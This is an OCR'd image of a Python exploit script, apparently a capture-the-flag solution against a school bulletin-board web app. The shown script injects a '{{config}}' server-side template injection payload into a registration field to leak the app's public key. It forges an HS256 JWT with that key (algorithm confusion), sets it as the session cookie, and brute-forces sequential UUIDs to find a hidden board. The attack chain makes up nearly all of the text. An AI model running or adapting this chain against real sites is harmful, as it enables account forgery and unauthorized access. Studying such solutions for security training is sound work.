```python
        "password": PASSWORD,
        "password_confirm": PASSWORD,
        "school": "{{config}}",
    },
)

s.post(
    f"{URL}/login",
    data={
        "username": USERNAME,
        "password": PASSWORD,
    },
)

# 1.2. Access 404 page to trigger SSTI.
res = s.get(f"{URL}/none")

# 1.3. Get public key.
pubkey = (
    res.text.split("AUTH_PUBLIC_KEY&#39;: b&#39;")[1]
    .split("&#39;")[0]
    .replace("\\n", "\n")
)

info(f"Public Key:\n{pubkey}")

# 2. JWT
# 2.1. Encode JWT via HS256 with taken token.
# Note that encode token with public key is available at version 0.4.3 (PyJWT)
token = jwt.encode(
    {
        "username": USERNAME,
        "school": SCHOOL,
        "iat": datetime.datetime.utcnow(),
        "exp": datetime.datetime.utcnow() + datetime.timedelta(hours=10),
    },
    pubkey,
    algorithm="HS256",
).decode()

s.cookies.set("token", token)
info(f"JWT: {token}")


# 3. UUID
# 3.1. Get UUID of free board.
res = s.get(f"{URL}/s/{SCHOOL}")
free_board_id = res.text.split(f'<a class="title" href="/s/{SCHOOL}/')[1].split(
    '">자유게시판</a>'
)[0]

info(f"FREE BOARD ID: {free_board_id}")


# 3.2. Brute force secret board's ID
def uuid(num: int) -> str:
    return f"{hex(int(free_board_id.split('-')[0], 16) + num)[2:]}-{'-'.join(free_board_id.split('-')[1:])}"


for counter in range(1, 600):
    res = s.get(f"{URL}/s/{SCHOOL}/{uuid(counter)}")
    info(f"({counter:4}) {uuid(counter)}, {res.status_code}")
```